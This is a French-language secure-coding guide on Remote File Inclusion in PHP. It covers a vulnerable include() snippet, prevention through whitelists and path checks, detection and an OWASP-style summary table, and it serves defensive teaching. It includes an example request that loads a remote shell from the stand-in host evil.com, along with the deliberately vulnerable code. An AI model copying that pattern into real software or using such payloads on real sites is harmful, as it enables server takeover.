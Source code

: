 ### Description

Les failles d'inclusion de fichiers distants (RFI) se produisent lorsqu'une application web inclut des fichiers distants via une URL sans validation adéquate des entrées utilisateur. Cela permet à un attaquant d'injecter des scripts malveillants hébergés sur des serveurs externes, conduisant à la compromission du système, à la divulgation de données sensibles, et à d'autres conséquences graves.

---
### Exemple d'Attaque RFI

**Scénario d'attaque :**

- Une application web inclut dynamiquement un fichier basé sur les paramètres fournis par l'utilisateur via une URL, par exemple `https://example.com/index.php?page=home`.

**Exemple de code vulnérable :**

```php
<?php 
$page = $_GET['page']; 
include($page . ".php"); 
?>
```

**Exploitation :**

- Un attaquant peut manipuler le paramètre `page` pour inclure un fichier distant malveillant, par exemple `https://example.com/index.php?page=http://evil.com/shell`.

```http
GET /index.php?page=http://evil.com/shell HTTP/1.1 
Host: example.com
```

---
### Prévention des Attaques RFI

**Désactiver l'Inclusion de Fichiers Distants :**

- Désactiver l'option `allow_url_include` dans le fichier de configuration PHP (`php.ini`).

```ini
; Désactiver l'inclusion de fichiers distants 
allow_url_include = Off
```

**Validation et Sanitisation des Entrées :**

- Valider et assainir toutes les entrées utilisateur pour s'assurer qu'elles ne contiennent pas de caractères spéciaux ou d'URL.

```php
$whitelist = ['home', 'about', 'contact']; 
$page = $_GET['page']; 
if (!in_array($page, $whitelist)) { 
die("Page non autorisée."); 
} 
include($page . ".php");
```

**Utilisation de Chemins Absolus :**

- Utiliser des chemins absolus pour les fichiers inclus afin d'empêcher les manipulations de chemins relatifs ou d'URL.

```php
$page = basename($_GET['page']); 
include("/var/www/html/pages/" . $page . ".php");
```

---
### Détection des Failles RFI

**Revue de Code :**

- Examiner le code source pour identifier les inclusions de fichiers basées sur des entrées utilisateur sans validation adéquate.

**Tests Manuels :**

- Effectuer des tests manuels en manipulant les paramètres de requêtes pour inclure des fichiers distants et vérifier la présence de vulnérabilités.

**Utilisation d'Outils de Sécurité :**

- Utiliser des outils de sécurité tels que Burp Suite, OWASP ZAP, ou des scanners spécifiques pour détecter les failles RFI.

---
### Exemples de Prévention

**Validation stricte des Entrées :**

```php
$allowed_pages = ['home', 'about', 'contact']; 
$page = $_GET['page']; 
if (!in_array($page, $allowed_pages)) { 
die("Page non autorisée."); 
} 
include($page . ".php");
```

**Utilisation de Fonctions Sécurisées :**

```php
$page = filter_input(INPUT_GET, 'page', FILTER_SANITIZE_STRING); 
$allowed_pages = ['home', 'about', 'contact']; 
if (!in_array($page, $allowed_pages)) { 
die("Page non autorisée."); 
} 
include(__DIR__ . "/pages/" . $page . ".php");
```

**Contrôle des Chemins :**

```php
$page = realpath(__DIR__ . "/pages/" . $_GET['page'] . ".php"); 
$base_dir = realpath(__DIR__ . "/pages/"); 
if (strpos($page, $base_dir) !== 0 || !file_exists($page)) { 
die("Page non autorisée."); 
} 
include($page);
```

---

| Catégorie                    | Information                                                                                                                                                                                                                                                                                                             |
| ---------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **TTP**                      | Technique d'inclusion de fichier distant                                                                                                                                                                                                                                                                                |
| **CWE**                      | CWE-94 (Improper Control of Generation of Code ('Code Injection'))                                                                                                                                                                                                                                                      |
| **Description de l'attaque** | RFI permet à un attaquant d'inclure des fichiers distants, généralement des scripts, dans une application web. Cela se fait en exploitant des vulnérabilités dans les applications web qui ne valident pas correctement les entrées utilisateur utilisées pour inclure des fichiers.                                    |
| **Impacts potentiels**       | - Exécution de code malveillant à distance<br>- Compromission du serveur web<br>- Accès non autorisé aux données                                                                                                                                                                                                        |
| **Comment la détecter**      | - Surveillance des journaux de serveur web pour les URL externes suspectes<br>- Scans de sécurité et tests de pénétration<br>- Audits de code pour identifier les points d'entrée vulnérables                                                                                                                           |
| **Remédiations/mitigations** | - Validation stricte des entrées utilisateur<br>- Utilisation de la liste blanche pour les URL autorisées<br>- Configuration sécurisée des serveurs et des interpréteurs de scripts<br>- Désactivation des inclusions de fichiers distants dans la configuration du serveur (par exemple, `allow_url_include` dans PHP) |
| **Lien de référence**        | [OWASP - Remote File Inclusion](https://owasp.org/www-community/attacks/Remote_File_Inclusion)                                                                                                                                                                                                                          |

